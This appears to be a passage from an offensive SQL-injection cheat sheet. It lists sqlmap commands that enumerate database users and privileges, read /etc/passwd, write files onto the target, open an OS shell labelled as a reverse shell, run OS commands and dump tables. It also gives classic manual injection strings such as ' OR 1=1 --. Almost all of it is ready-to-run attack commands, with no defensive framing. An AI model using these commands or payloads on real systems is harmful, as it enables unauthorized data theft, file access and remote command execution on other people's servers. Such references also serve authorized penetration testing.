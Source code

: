 ### List Privileges
```bash
sqlmap -r req --current-user
sqlmap -r req --privileges
sqlmap -r req --roles
```

### File
```bash
# Read file
sqlmap -r req --file-read=/etc/passwd
# Upload file
sqlmap -r req --file-write=/local/file --file-dest=/dest/path
```

### Shell
```bash
# Upload Reverse shell
sqlmap -r req --os-shell
sqlmap -r req --os-cmd 'echo desbarres'
# Sql Shell
sqlmap -r req --sql-shell
```

### Optimize
```
-o                  Turn on all optimization switches
--predict-output    Predict common queries output
--keep-alive        Use persistent HTTP(s) connections
--null-connection   Retrieve page length without actual HTTP response body
--threads=THREADS   Max number of concurrent HTTP(s) requests (default 1)

--time-sec=TIMESEC  Seconds to delay the DBMS response (default 5)
```

### Turbo SQLmap
```bash
sqlmap -u 'https://example.com/?arg=*' --dump -T table_example -D example_db --level=2 --force-ssl --time-sec 1 --predict-output --dbms 'MySQL' --technique T  --flush-session
```

## Manual
### Common pattern
```
" OR ""="
' OR ''='
' OR 1=1 -- comment
```

# Request
## Curl
### Send X-form
```bash
curl 'http://example.com/login' -H 'Content-Type: application/x-www-form-urlencoded' -sd 'username=login&password=pass'
```
